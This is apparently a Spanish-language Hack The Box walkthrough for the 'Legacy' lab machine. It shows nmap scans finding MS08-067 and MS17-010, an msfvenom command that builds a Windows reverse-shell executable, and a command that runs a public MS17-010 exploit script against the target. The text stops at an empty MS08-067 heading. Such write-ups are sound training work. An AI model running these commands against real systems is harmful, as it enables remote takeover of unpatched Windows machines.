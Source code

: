 # Legacy ![Avatar](https://www.hackthebox.eu/storage/avatars/60dc190c4c015cfe3a3aef9b5afca254_thumb.png)     

### Initial Scan

```nmap
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m50s, deviation: 2h07m16s, median: 4d22h57m50s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:57:05 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-08-02T21:04:14+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```
### Enumeration

Busquemos vulnerabilidades asociadas a los puertos abiertos
```bash
sudo nmap -p 445 --script vuln 10.10.10.4
```
```
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|_smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

### Exploit

#### MS17-010

Utilizaremos el script de send_and_execute de este repositorio
```web
https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
```
Generamos una reverse shell para windows en formato ejecutable
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f exe -a x86 — platform windows -o rev_shell.exe
```
Ejecutamos el script mencionado arriba
```bash
python2.7 send_and_execute.py 10.10.10.4 rev_shell.exe
```
#### MS08-67

